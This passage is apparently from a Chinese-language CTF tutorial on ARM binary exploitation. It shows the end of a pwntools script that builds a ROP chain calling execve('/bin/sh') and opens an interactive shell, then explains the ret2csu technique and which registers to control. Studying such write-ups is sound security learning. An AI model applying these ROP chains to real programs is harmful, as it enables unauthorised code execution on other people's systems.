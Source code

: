 ```python
payload+=p32(binsh) 
payload+=p32(gadget2) 
payload+=p32(0) 
payload+=p32(gadget3) 
payload+=p32(0) 
payload+=p32(0xb) 
payload+=p32(gadget4)
payload+=p32(svc)
payload+=p32(gadget5)
link.recvuntil(b"world\n")
link.sendline(payload)
link.interactive()
```

# 0x02 ret2csu
arm 架构下`_libc_csu_init_`函数的汇编的一部分：

![](/images/04a374d97fa82243e6dda21718e2d7db.png)

ret2csu目的是利用`_libc_csu_init_`函数来控制寄存器的值和调用函数

关键在于`BLX R3`这个语句，

`R3`没法直接通过 `POP`指令直接控制，

所以通过上面的`LDR R3, [R5, #4]!`将`R5`寄存器加 4 的值赋给 `R3`，

而`POP`语句当中包括`R5`，可以直接控制它的值。

## 过程
栈溢出到最后的`POP`语句把一系列的寄存器的值修改，

再利用`POP PC`跳转到最上面的`MOV`语句继续执行

，注意`PC`对应行 x64 架构中的`RIP`

`R4`=0，如果不需要执行后面的`BLX loc_10D7C`跳转到最前面的`MOV`语句就可以随便赋值

`R5`=要调用的函数的地址减去 4

`R6`=函数第一个参数

`R7`=函数第二个参数

`R8`=函数第三个参数

`R9`=1，如果不需要执行后面的`BLX loc_10D7C`跳转到最前面的`MOV`语句就可以随便赋值

`R10`随便赋值

`PC`=最前面的语句`MOV R2, R8`的地址



